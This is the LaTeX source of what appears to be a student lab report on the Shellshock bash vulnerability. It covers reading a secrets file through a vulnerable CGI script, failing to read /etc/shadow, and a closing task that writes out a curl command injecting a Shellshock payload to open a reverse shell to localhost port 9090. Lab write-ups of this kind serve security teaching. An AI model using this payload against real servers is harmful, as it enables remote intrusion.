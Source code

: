 \documentclass[11pt]{article}
\newcommand{\fig}[2]{ 
\begin{figure}[h]
	\centering
	\caption{#2}
	\texttt{[image: pics/\#1]}
	\label{fig:#1}
\end{figure} 
}
\begin{document}
\fig{task3.1}{Contents of unpatched.cgi}

\fig{task3.2}{Sending environment variables to the server}

\newpage

\section*{Task 4}

Task 4 utilizes the vulnerability found in Task 1. If the server is running /bin/bash\_shellshock instead of /bin/bash, then we can use the shellshock attack. Figure \ref{fig:task4.1} first shows the contents of a file  called `secrets' in the cgi-bin/ directory. The next line uses the shellshock attack to print the contents of `secrets' to the console. Also note that unpatched.cgi no longer prints the environment variables to the screen.

\fig{task4.1}{Hard coded command}

If an attacker attempted to steal the contents of the `etc/shadow' file, they would only have luck. This inability is shown in Figure \ref{fig:task4.2}. This is because they are given web access privilges while accessing `etc/shadow' requires root privileges.

\fig{task4.2}{No access to etc/shadow}

\newpage

\section*{Task 5}

The results of Task 4 are only useful if an attacker knows exactly how the file architecture is set up on the server site. Task 5 shows a much more powerful attack. If we set up an environment variable that declares a function, then any child processes of the server will declare that function. When using a vulnerable version of bash, we can insert any set of commands we want at the end of the variable. Figure \ref{fig:task5.1} shows the commands for setting up a reverse shell. The top window is where we will receive the shell and the bottom window requests the information from the server.

Let's now discuss how the command to start a reverse shell works. The command is typed below here for clarity (note that this should be typed as one line when running).

\begin{Verbatim}
curl -A "() { echo; }; echo Content-type: text/plain; echo; echo; 
/bin/bash -i > /dev/tcp/localhost/9090 0<\&1 2>\&1" http://localhost/cgi-bin/unpatched.cgi
\end{Verbatim}
\end{document}
